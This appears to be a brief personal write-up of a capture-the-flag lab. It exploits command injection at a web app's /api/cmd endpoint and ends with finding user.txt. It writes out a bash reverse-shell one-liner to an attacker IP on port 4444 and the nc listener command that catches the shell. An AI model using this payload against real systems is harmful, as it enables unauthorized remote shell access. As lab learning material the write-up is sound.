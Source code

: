 # Command injection 
-----

--> i found this at `http://<ip>:3000` 

![[Pasted image 20210813123146.png]]

--> but McSkidy found some input at `/api/cmd` directory 

--> so Let's go there and try to do command injection 

--> but we are getting this error 

![[Pasted image 20210813123302.png]]

--> but when i tried to do like `/api/cmd/ls` then i got the output !

![[Pasted image 20210813123345.png]]

--> so Let's get the reverse shell from this url 

--> we have this reverse shell 

`sh -i >& /dev/tcp/10.9.3.121/4444 0>&1`

--> but first we have to URL encode it and after that we will start our listner on port 4444

`nc -lvnp 4444`

--> and we got the shell after injecting this payload !

![[Pasted image 20210813123537.png]]

--> and i found `user.txt` in `home` directory 

![[Pasted image 20210813123618.png]]

------